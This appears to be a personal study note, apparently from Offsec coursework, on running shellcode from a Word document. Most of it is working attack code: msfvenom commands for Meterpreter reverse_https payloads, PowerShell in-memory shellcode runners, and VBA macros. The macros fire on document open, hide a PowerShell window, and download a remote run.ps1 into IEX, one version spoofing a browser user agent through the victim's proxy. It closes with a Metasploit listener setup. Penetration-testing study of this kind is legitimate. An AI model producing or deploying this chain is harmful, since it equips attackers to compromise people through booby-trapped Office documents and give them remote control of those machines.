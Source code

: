```yaml
---
title: PowerShell Shellcode in Word
layout: default
parent: Client Side Execution
nav_order: 2
---
```


Similar to CSharp, the theory is to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, 0x3000, 0x40)`
2. Copy shellcode using `[System.Runtime.InteropServices.Marshal]::Copy(shellcodeBuffer, 0, startAddress, $size)`. startAddress here is the return value of `VirtualAlloc()` in step 1.
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`, and assign the value to `$thandle`
4. Don't exit the newly created thread even though our PowerShell is closed using `WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

First, generate the shellcode using msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1
```

Then put it into the Powershell code below for **64-bit**:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("Kernel32.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
$sizeUIntPtr = New-Object System.UIntPtr $size
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$sizeUIntPtr,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Note:
* Can remove all the `[return: MarshalAs(...)]`
* Sometimes the DLL might not be correct, refer back to MSDN for the final confirmation

Official Solution from Offsec for **32-bit** (using `msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1`):

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32")]
  public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  [DllImport("kernel32", CharSet=CharSet.Ansi)]
  public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  [DllImport("kernel32.dll", SetLastError=true)]
  public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
[Byte[]] $buf = SHELLCODE HERE
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Use this **(with proxy aware and user agent)**:

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell -Command """
    str = str & "New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null; "
    str = str & "$keys = Get-ChildItem 'HKU:\'; "
    str = str & "ForEach ($key in $keys) {if ($key.Name -like '*S-1-5-21-*') {$start = $key.Name.substring(10);break}}; "
    str = str & "$proxyAddr=(Get-ItemProperty -Path 'HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\').ProxyServer; "
    str = str & "[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy('http://$proxyAddr'); "
    str = str & "$wc = new-object system.net.WebClient; "
    str = str & "$wc.Headers.Add('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36');"
    str = str & "$wc.DownloadString('http://192.168.45.169/run.ps1') | IEX"""
    Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

**(Try to use the one on top instead of this)** Add this to a Microsoft Word Macro `AutoOpen()`:

```vb
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://IP/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Finally prepare for incoming shell **(remember to change to 32-bit if required)**:

```
sudo systemctl start apache2
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```


To debug use

```
sudo tail /var/log/apache2/access.log
```
